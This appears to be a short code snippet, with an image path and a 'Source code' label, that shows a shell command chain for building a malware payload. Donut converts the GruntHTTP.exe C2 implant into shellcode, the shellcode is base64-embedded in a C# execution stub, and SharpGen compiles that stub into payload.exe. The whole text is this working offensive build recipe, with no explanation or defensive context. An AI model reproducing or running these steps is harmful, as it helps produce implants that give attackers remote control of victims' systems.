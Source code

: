 ```
$ ~/tools/PEzor/deps/donut/donut -i GruntHTTP.exe -o grunt.bin
$ echo -n 'var shellcode = Convert.FromBase64String("' > shellcode.txt
$ echo -n `base64 -w0 grunt.bin` >> shellcode.txt
$ echo '");' >> shellcode.txt
$ echo 'ShellCode.ShellCodeExecute(shellcode);' >> shellcode.txt
$ ~/.dotnet/dotnet bin/Debug/netcoreapp2.1/SharpGen.dll -f payload.exe -s shellcode.txt -c Shell -d net40
```

